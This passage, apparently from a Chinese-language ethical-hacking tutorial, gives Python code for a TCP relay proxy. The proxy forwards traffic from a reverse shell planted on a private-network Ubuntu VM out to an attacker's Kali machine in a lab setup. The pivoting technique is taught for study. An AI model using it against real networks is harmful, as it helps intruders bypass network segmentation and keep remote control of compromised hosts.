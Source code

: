 创建一个名为*ProxyFun*的文件夹，并将以下代码复制到该文件夹中的新文件*proxy.py*：

```
from SocketServer import BaseRequestHandler, TCPServer
from socket import socket, AF_INET, SOCK_STREAM
import sys
class SockHandler(BaseRequestHandler):

   ➊ def handle(self):

        self.data = self.request.recv(1024)

        print "Passing data from: "+ str(self.client_address[0]) + " to " + external_LAN_IP

        print self.data

        socket = socket(AF_INET, SOCK_STREAM)

        try:

        ➋   socket.connect((external_LAN_IP, external_LAN_PORT))

             socket.sendall(self.data)

             while 1:

                 command = socket.recv(1024)

                 if not command:

                     break

                 self.request.sendall(command)

         finally:

             socket.close()

if __name__ == '__main__':

      private_LAN_IP, private_LAN_PORT, external_LAN_IP, external_LAN_PORT = sys.argv[1:]

   ➌ myserver = TCPServer((private_LAN_IP, private_LAN_PORT), SockHandler)

      myserver.serve_forever()
```

代理启动一个 TCP 服务器，监听私有局域网的 IP 地址➌。记住，我们的目标，Ubuntu 虚拟机，只能访问私有网络中的 IP 地址。所以，如果我们想与它通信，必须设置一个 TCP 服务器，监听与连接到私有网络的接口关联的 IP 地址。

目前，我们假设已经在 Ubuntu 虚拟机上植入了反向 shell，因此我们可以专注于查看数据如何从私有局域网中的反向 shell，通过代理流向攻击者的 Kali Linux 机器，并进入模拟的公共网络。
